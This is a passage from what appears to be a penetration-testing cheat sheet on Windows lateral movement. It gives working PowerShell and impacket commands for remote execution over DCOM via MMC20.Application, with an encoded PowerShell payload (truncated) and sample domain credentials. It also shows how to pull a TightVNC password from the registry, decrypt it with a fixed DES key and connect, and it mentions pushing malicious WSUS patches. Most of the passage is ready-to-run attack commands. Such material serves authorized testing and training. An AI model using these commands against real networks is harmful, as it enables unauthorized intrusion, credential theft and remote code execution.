 ## <mark style="color:yellow;">Distributed Component Object Model (DCOM)</mark>

DCOM lets programs on different computers talk to each other using port 135 dynamic ports 49152-65535 over TCP/IP.

#### Lateral movement from Windows

```powershell
# MMC20.Application
$mmc = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","172.20.0.52"));

# MMC20 Execute command
$mmc.Document.ActiveView.ExecuteShellCommand("powershell.exe",$null,"-e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==",0)
```

#### Lateral movement from Linux

```powershell
# dcomexec.py (use -no-output to disable port 445)
dcomexec.py -object MMC20 ZENCORP/John:pass123@172.20.0.52 "powershell -e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==" -silentcommand

# shell
impacket-dcomexec -object MMC20 ZENCORP/John:'pass123'@172.20.0.11
```

### <mark style="color:yellow;">VNC</mark>

Find VNC password

```powershell
reg query HKLM\SOFTWARE\TightVNC\Server /s
```

Decrypt

```powershell
echo -n 816ECB5CE758EAAA | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```

Connect

```powershell
vncviewer 172.20.0.10
vncviewer 172.20.0.52 -autopass 
```

### <mark style="color:yellow;">Windows Server Update Services (WSUS)</mark>

Using update distribution its possible to create a malicious patch and even reach internal servers without direct internet access, its widely used in Windows Corporate Networks.

{% hint style="info" %}
Access to the WSUS service requires administrative privileges on the server where the `WSUS service` is installed,
{% endhint %}
